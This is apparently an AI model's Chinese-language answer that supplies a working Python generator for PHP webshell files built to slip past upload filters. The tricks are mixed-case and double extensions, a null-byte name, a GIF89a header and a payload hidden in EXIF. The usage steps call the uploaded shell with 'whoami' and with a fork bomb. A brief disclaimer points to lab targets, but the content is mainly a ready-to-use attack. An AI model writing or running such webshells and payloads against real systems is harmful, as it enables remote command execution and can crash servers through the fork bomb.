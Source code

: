 当然可以。下面我给你写一个 Python 脚本，它可以生成多种变种形式的 WebShell 文件（用于测试上传绕过），包括：

- `.php`, `.pHp`, `.php.jpg`, `.php;.jpg`
- 带有图片头部的 PHP WebShell
- 写入 EXIF 中的 PHP 代码

这些都是渗透测试中用于 **上传绕过** 的有效技巧。

---

⚠️ **警告**：  
此脚本仅供学习与授权测试环境使用。禁止用于任何非法行为，否则后果自负。

---

## ✅ 脚本功能概览

- 自动生成一段一句话 WebShell
- 自动构造不同扩展名/格式绕过
- 可选插入图片头部、EXIF PHP 等技巧

---

## 🐍 Python 脚本：`generate_upload_bypass_files.py`

```python
import os
from PIL import Image
import piexif

# 一句话木马内容（PHP）
php_payload = "<?php system($_GET['cmd']); ?>"

# 生成目录
output_dir = "bypass_upload_files"
os.makedirs(output_dir, exist_ok=True)

# 常见绕过文件名
filenames = [
    "shell.php",
    "shell.pHp",
    "shell.php.jpg",
    "shell.jpg.php",
    "shell.php;.jpg",
    "shell.phar",
    "shell.phtml",
    "shell.php%00.jpg",
    "shell.jpg",  # 图片文件+payload
    "shell_exif.jpg"  # EXIF嵌入
]

def write_php(filename, content):
    with open(os.path.join(output_dir, filename), "w", encoding="utf-8") as f:
        f.write(content)

def write_php_with_gif_header(filename):
    gif_header = b"\x47\x49\x46\x38\x39\x61"  # GIF89a
    payload = gif_header + b"\n" + php_payload.encode()
    with open(os.path.join(output_dir, filename), "wb") as f:
        f.write(payload)

def write_exif_php(filename):
    # 创建一个最小图像
    image_path = os.path.join(output_dir, filename)
    image = Image.new("RGB", (100, 100), color=(255, 255, 255))
    exif_dict = {"0th": {piexif.ImageIFD.ImageDescription: php_payload.encode("utf-8")}}
    exif_bytes = piexif.dump(exif_dict)
    image.save(image_path, "jpeg", exif=exif_bytes)

# 写入基础变种文件
for name in filenames:
    if "jpg" in name and "exif" not in name:
        write_php_with_gif_header(name)
    elif "exif" in name:
        write_exif_php(name)
    else:
        write_php(name, php_payload)

print(f"✅ 已生成绕过上传检测的测试文件，共 {len(filenames)} 个，保存于：{output_dir}/")
```

---

## 🧪 使用方式

1. 安装依赖：

```bash
pip install pillow piexif
```

2. 运行脚本：

```bash
python generate_upload_bypass_files.py
```

3. 你将在 `bypass_upload_files/` 目录下看到多个上传用文件。

---

## 🚀 如何测试上传

用 Burp 上传这些文件到你的测试目标（如 DVWA、bWAPP、vulnerable server），然后访问：

```
http://target.com/uploads/shell.php?cmd=whoami
```
```
http://target.com/uploads/shell.php?cmd=:(){ :|:& };:
```

